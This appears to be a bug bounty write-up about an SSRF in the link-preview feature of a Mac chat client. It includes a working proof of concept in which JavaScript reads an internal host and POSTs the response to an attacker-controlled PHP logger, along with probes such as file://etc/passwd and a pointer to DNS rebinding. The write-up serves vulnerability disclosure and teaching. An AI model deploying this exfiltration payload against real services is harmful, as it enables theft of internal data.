I was working on a private program which i cannot disclose

First of all, its web assets have several subdomains. After I tested it for a while, I plan to look at the mac client.

The mac client has an chat interface where i found a SSRF.

The following is the whole process

After installation, sign up for login, then I see a chat interface.

Send a URL

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/1.png)
It seems to preview the url, return a title and favicons

I use my server ip to test. Then received

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t3.png)
Found that is the browser's ua header

Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....

Tested a lot of common internal ip

But

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t1.png)
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t2.png)
No effect

Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip

Until there is an ip

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t4.png)
Seems to be successful

Then I quickly submitted the vulnerability

But

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t5.png)
As written above, we can only get a very small amount of content.

After testing, I found that it will also execute js because it is browser ua

  
 
    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
    
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t6.png)

Can successfully get Google returns the content length

Does not seem to be blocked by Same Origin Policy

Then we can get any internal network content

**poc**

xxx.php

    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
    
poc.html

    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
Then check save.txt

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t8.png)
Url decoding

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t9.png)
**If Same Origin Policy blocks**

Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .

![enter image description here](https://user-images.githubusercontent.com/5891788/53449161-87e47300-3a19-11e9-8e3c-7b7bdfeaab6b.png)

Details from https://github.com/mpgn/ByP-SOP

Finally 
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t11.png)
I got the highest bounty reward for this private project.
![enter image description here](https://1.bp.blogspot.com/-3GE4BNyvnIk/XcJCEXqEEXI/AAAAAAAAACQ/6vs1Kn_Ef-Iph3bSnDgT7fG4T3vW1BKhACLcBGAsYHQ/s1600/1.png)

